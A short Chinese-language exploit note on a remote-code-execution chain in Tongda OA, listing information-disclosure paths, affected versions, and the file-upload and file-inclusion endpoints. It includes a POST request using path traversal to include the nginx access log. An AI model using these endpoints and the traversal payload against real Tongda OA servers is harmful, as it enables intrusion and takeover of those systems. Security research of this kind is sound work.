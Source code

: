 通达OA RCE
========

0x01 获取信息
---------

```php
获取版本信息
inc/expired.php
inc/reg_trial.php
inc/reg_trial_submit.php

获取计算机名
resque/worker.php
```

0x02 影响版本
---------

V11版  
2017版  
2016版  
2015版  
2013增强版  
2013版

0x03 漏洞简介
---------

任意文件上传+文件包含最后getshell

不同版本文件包含的地址不一样

```php
2013
/ispirit/im/upload.php
/ispirit/interface/gateway.php

2017
/ispirit/im/upload.php
/mac/gateway.php
```

2015说是没有文件包含，到时候本地搭一下看看

0X04 文件包含
---------

上面说过了2017的文件包含位置

```php
http://127.0.0.1/mac/gateway.php
post:json={&quot;url&quot;: &quot;../../nginx/logs/oa.access.log&quot;}

```

但是看了一下代码并不知道为什么可以包含文件，因为没有$\_POST的地方
